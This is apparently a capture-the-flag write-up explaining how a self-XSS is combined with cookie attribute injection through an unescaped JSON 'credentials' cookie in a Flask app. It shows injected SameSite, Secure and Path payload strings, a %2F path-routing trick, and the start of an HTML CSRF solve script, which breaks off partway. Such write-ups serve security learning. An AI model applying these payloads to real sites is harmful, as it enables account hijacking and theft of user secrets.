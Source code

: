 ...and there's no CSP either, so we have a winning self-XSS. If we can get the admin to log in as us and go to `/profile`, then we can execute any JS we want. However, this isn't as useful as it seems, due to these following issues:

- Logging in as us will override the admin's `credentials` cookie, which stores our username and password as raw JSON: `{"username":"<b>hi</b>","password":"aaa"}`, thus, we'd lose the admin's login and be unable to fetch their secret
- Popups don't work for some reason (I'm pretty certain that puppeteer had popups disabled?) so we aren't able to extend our browsing context to another window
- `credentials` defaults to `SameSite=Lax`, which means that we can't set the cookie cross-origin with CSRF as browsers only honour `Set-Cookie` headers with `SameSite=None` if the request isn't top level; and again, we can't make it top level as we can't extend our browsing context to other windows

This seems pretty tough, so let's investigate `credentials` in more detail, as it's pretty suspicious that this plaintext cookie is being used instead of the default `session` cookie from Flask. Indeed, our JSON input isn't escaped, so we can escape the JSON and inject arbitrary Set-Cookie attributes, eg:

```
username: user":"pass"};SameSite;
password: lol

/\ will result in the cookie looking like:

credentials={"user":"pass"};SameSite;"lol"}
```

The key things to note here are that we can set `SameSite=None; Secure;` (Secure is needed if SameSite=None) in order to allow us to set our forged cookie, and that we can avoid overriding the admin's `credentials` cookie by setting our cookie on a different path! For example, these following attributes would make it possible for our `credentials` to be sent cross-frame and only when the path is `/.%2Fprofile`:

```
SameSite=None; Secure; Path=/.%2Fprofile; <garbage here>
```

...and thanks to Flask's routing, the %2F will be decoded to a slash *before* routing rules are applied, so will be treated as `/./profile` and access the same page as `/profile` without contesting with the admin's `credentials` cookie. Our path is clear:

- CSRF a login with our username and injected attributes, `<XSS PAYLOAD>","pwd"}; SameSite=None; Secure; Path=/.%2Fprofile;`, so the response `Set-Cookie` header will set a cookie that only applies on `/.%2Fprofile`
- Redirect (key: redirect, not frame, as framing will fail to send the admin's cookie due to SameSite=Lax) to `/.%2Fprofile`

Here's my cleaned-up solve script:

```html
<!DOCTYPE html>
<html>
<head>
</head>
<body>

<iframe name=woo id=woo></iframe>


<form id=form action="https://ctftime.pl/login" method="POST" target="woo">
    <input name=username id=uname>
    <input name=password value=pwdpwd>
    <input type=submit>
</form>

<script>
onload = async () => {

```